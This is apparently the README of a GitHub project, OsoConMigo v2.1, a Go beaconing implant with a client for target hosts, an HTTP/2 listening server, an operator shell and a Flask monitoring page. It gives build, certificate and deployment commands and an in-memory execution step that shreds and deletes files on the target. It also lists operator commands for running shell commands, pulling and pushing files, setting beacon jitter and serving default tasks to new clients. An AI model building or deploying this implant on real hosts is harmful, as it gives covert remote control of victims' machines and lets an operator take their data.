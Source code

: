 # OsoConMigo Version 2.1

[![Generic badge](https://img.shields.io/badge/Go-v1.14-blue.svg)](https://shields.io/) [![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/Naereen/StrapDown.js/blob/master/LICENSE)

OsoConMigo is in it's second version.  At the moment it is a simple beaconing implant written in Go.  Components of OsoConMigo are a client, Listening server and interactive shell.  The client communicates with the server over HTTP/2 at a specified comms interval.  A client can be tasked using the interactive shell to pull and push files, and execute commands on the target host.

## Getting Started

#### Install dependencies (Debian and Ubuntu)
```
Apt update && apt -y upgrade && apt -y install build-essential postgresql screen vim git upx
```

#### Install GO
```
wget https://dl.google.com/go/go1.14.1.linux-amd64.tar.gz
tar -C /usr/local -xzf go1.14.1.linuxamd64.gar.gz
rm -f go1.14.1.linux-amd64.tar.gz

echo "export PATH=$PATH:/usr/local/go/bin" >> ~/.profile
source ~/.profile
```

#### Get OsoConMigo
```
git clone https://github.com/mojo0243/OsoConMigoV2.git
```

#### Install Go Dependences
```
cd OsoConMigoV2
make deps
```

#### Setup Postres
```
# Start the postgres service
service postgresql start

# Change to the postgres user
su - postgres

# Create a new user
createuser --interactive --pwprompt
# Enter name of role to add: test
# Enter password for new role: pass
# Enter it again: pass
# Shall the new role be a super user? (y/n) y

# Create the database
psql
CREATE DATABASE oso;
\q

# Exit from the postgres user
exit
```

#### Building with the Makefile

Edit the Make file to include the IP for your server and any client specific information.  This can be overridden from the command line as an alternative.  Additional archectures can be added.  To view a list of architectures suppored natively by go, use the go tool command.

```
go tool dist list
```

#### Generic build instructions with make
```
cd OsoConMigoV2

# Build a server, client and shell
make all

# Build the server
make build_server

# Build the shell
make build_shell

# Build a client with default settings
make build_linux64

# Make a custom client with and over ride Node name
make build_mips NODE=M0001

# Make a custom client and over ride all options
make build_arm NODE=A0001 URL=https://localhost:8443/tienda/peluche SECRET=superChief COMMS=30 FLEX=10
```

#### Building a Certificate

When buildig the certificate ensure that the common name is 'localhost'.  Otherwise you may receive a TLS Handshake error on the server.  Currently the Netgear R6400 gives this same issue due to not using SSL and having no rootCA Pool.  I am currently working this issue.

```
cd server; mkdir cert
openssl genrsa -out cert/server.key 4096
openssl req -new -x509 -sha256 -days 365 -key cert/server.key -out cert/server.crt
```

#### Start the Server
```
cd server
./server -c config.yml

# Starting the Server in a screen session
screen -S Oso_Server
./server -c config.yml
 
# Background the screen session
 ctrl+a d

# To interact with the screen session
 screen -ls (to ensure it is still running)
 screen -x Oso_Server
```

#### Start the Shell
```
cd shell
./shell -c config.yml

# Starting the Server in a screen session
screen -S Oso_Shell
./shell -c config.yml
 
# Background the screen session 
 ctrl+a d

# To interact with the screen session 
 screen -ls (to ensure it is still running)
 screen -x Oso_Shell
```

#### Execute client on target host
```
# Start client
./client -c server.crt &

# To run in memory after starting
shred -fuz server.crt; rm -f client
```

#### Validate Postgres database
```
# Login to shell
sudo -u postgres psql

# Connect to oso database
\c oso

# View tables
\dt

# Drop old tables
DROP TABLE agents,results,tasks,tokens;
```

#### Basic usage
```
clients					: List available clients
client <node>				: Tag into client for interaction.  client without a name brings the user back to home and lists clients.
task <command>				: Task the client to execute a command. Must start with shell. Ex: /bin/bash, /bin/sh, cmd.exe
staged					: Show jobs in the queue not yet deployed for current client
deploy					: Move staged jobs into deployed queue.  Client can access jobs only once deployed.
revoke 					: Remove deployed jobs
revoke restage				: Removes deployed jobs and places them in the staged que to allow for additional commands to be added
flush 					: Flush commands in the staged queue
set comms <int>				: Task the client to modify it's comms interval in seconds.
set flex <int>				: task the client to offset the comms by (+/-) x seconds.
kill 					: Kill the client process
job <job id>				: Show the output from a job
jobs					: List complete and deployed jobs
pull <remote file>			: Pulle a file from the target machine.
push <local file> <remote file>		: Push a local file to the target machine.
forget <node>				: Remove a client from the database
dump					: When tagged into a client with dump jobID:Node:Task:Result into the server out file (result will be base64 encoded)
default					: Tag into the default command section
cook					: When tagged into default type cook followed by any other standard commands to set default commands for initial client check ins
trash					: Remove tasks from default that have not been served
serve					: Set default tasks to be picked up on any initial check in by a client
eat					: Remove served tasks from default
basket					: View any default tasks that have not been set to serve
served					: View default tasks which will be picked up by any client on initial check in
clear					: Clear all data from tasks, clients, results, defaults and tokens
```

#### Web Interface monitor

This python script provides a simple web interface that allows the user to have a quick refernce for available nodes, first seen and last seen, along with status of jobs deployed.  Because this is written in python flask it is only recommended to run on the local host ip and use ssh for remote port forward if placing on a different computer.  This application requires a login for access.  Currently the /create-user page is not set to force a login for view.  This can be fixed by uncommenting the for lines on the index/routes.py file under the /create-user route.  If these lines are uncommented the only username which can access this page afterwards is admin.

#### Setup the Web interface monitor

```
cd monitor
apt install python3
pip3 install -r requirements.txt
```

#### Start the Web interface monitor

The ocm_v2.py script takes a -i for IP address and -p for port

```
python3 ocm_v2.py -i 127.0.0.1 -p 8000
```

#### Create a new user

Open a browser and browse to http://127.0.0.1:8000/create-user

#### Log in and view Web interface monitor

Open a browser and browse to http://127.0.0.1:8000/login

#### TO DO

1. Add database column that indicates bool value for files.

2. Write files pulled to out folder instead of database.  based on bool value. Preserve pull path

3. Add a scheduler option to run recuring commands at a given interval

